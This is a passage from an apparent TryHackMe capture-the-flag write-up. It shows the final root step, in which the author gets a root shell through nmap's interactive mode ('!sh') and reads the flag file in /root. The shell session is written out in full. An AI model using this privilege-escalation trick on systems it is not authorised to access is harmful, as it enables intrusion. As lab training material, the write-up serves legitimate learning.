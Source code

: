 ### Final step getting root on the machine

On the TryHackMe website the hint was "nmap"

So i found this website [https://pentestlab.blog/category/privilege-escalation/](https://pentestlab.blog/category/privilege-escalation/) and it worked ! :D

```
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# ls
ls
key-2-of-3.txt  password.raw-md5
# cd /root
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```



